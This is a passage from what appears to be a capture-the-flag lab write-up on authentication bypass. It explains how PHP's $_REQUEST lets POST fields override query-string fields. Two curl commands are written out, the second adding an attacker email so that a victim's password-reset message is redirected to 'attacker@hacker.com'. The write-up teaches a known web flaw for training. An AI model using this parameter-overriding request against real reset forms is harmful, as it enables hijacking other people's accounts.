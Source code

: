 If we enter the username from the list we created earlier (in particular the username robert since we are using his email), we will be presented with a confirmation message that a password reset email will be sent to the supplied email address: `robert@acmeitsupport.thm`

![Password Reset Email Sent](../../assets/images/thm/authenticationbypass/08-pass_reset_email_sent.png)

We are told that in the second step of the reset email process, the username is submitted in a POST field to the web server and the email address is sent in the query string request as a GET field. We can illustrate this by using `curl` to manually make the request to the web server.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
In the web application backend, the user account is retrieved using the query string and in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string. So if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```